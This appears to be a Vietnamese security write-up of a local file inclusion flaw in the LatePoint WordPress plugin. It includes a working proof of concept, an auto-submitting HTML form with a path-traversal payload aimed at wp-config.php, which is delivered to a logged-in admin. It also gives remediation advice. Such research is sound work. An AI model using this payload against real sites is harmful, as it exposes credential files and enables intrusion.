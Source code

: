 #### Step 1

Tạo trang web có form, tự động gửi request với LFI payload

```html
<!DOCTYPE html>
<html lang="en">
<head>
    <meta charset="UTF-8">
    <meta name="viewport" content="width=device-width, initial-scale=1.0">
    <title>Document</title>
</head>
<body>
    <form action="http://localhost:80/wp-admin/admin.php" method="get">
        <input type="text" name="page" value="latepoint">
        <input type="text" name="route_name" value="calendars__view">
        <input type="text" name="layout" value="../../../../../../wp-config">
    </form>
    <script>
        document.forms[0].submit()
    </script>
</body>
</html>
```

#### Step 2
Gửi link đến trang web cho admin hoặc người dùng có đặc quyền

**Result**:

Debugger đã nhảy đến `wp-config.php`

{{< figure src="result.png" caption="Kết quả LFI thành công" >}}

> [!INFO]
> Vì đây là CVE được công bố **Unauthenticated**, nên ta tận dụng plugin không check `nonce` để người dùng đã đăng nhập truy cập vào link trang web độc hại rồi tự gửi request đến trang WordPress đó kèm theo cookie. 

### Conclusion

Phiên bản **≤ 5.1.93** của LatePoint cho phép **LFI** vì tham số `layout` không được xác thực trước khi `include()`, dẫn tới khả năng **đọc tệp cục bộ** (ví dụ `wp-config.php`). Lỗ hổng được vá trong **5.1.94** bằng cách lọc ký tự, dùng `realpath()` và giới hạn thư mục hợp lệ.

### Key takeaways

* Đây là **LFI (đọc file)** — không có bằng chứng RCE trong PoC.
* Tham số điều khiển đường dẫn phải được **sanitize + canonicalize** trước khi dùng.
* Dùng **realpath()** và **kiểm tra base dir** để ngăn traversal.
* Không **include** trực tiếp dữ liệu từ request; xây hàm an toàn như `get_safe_layout_path()`.

## References
